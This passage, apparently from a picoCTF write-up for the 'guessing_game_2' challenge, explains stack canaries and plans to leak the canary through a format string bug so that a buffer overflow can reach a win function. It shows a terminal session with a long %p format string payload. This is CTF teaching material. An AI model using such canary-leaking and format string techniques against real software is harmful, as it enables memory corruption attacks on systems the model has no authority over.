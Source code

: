 - After bypassed the do_stuff, we can ignore it to exploit win function.

- Stack frame of win function has protected by canary, it just a 4 bytes value in 32-bit located on stack and it is used to check whether the return of the function is overwritten with BOF, if ret of the function is overwritten by BOF, canary will be changed because we must overwrite the canary before reach to the ret. Before program returns to next instruction of called function, it will check the canary whether is it changed? if it is changed, then the program return with signal that stack was smashed, if not the program just normally continue implement the code.

- Here is disassembly code of vuln, we can see that the program has 

![img](/picoCTF/guessing_game_2/assets/stack_canary.png)

- But below BOF code, the program also has format string vuln. We can take advantage of this vuln to leak the canary value and add it into payload, then we can bypass the canary protection with value that we leaked because the canary value does not change during the runtime of program.

- We can use some format that I have written in protostar write-up

- First, I use a bunch of %p to read all the stack and specify the index of canary

```
λ /mnt/c/users/whatd/Desktop/CTF/pwn/picoCTF/guessing_game_2/ ./vuln
Welcome to my guessing game!
Version: 2

What number would you like to guess?
-1727                                                         # <- -1727 is my local value to bypass do_stuff
Congrats! You win! Your prize is this print statement!

New winner!
Name? AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
```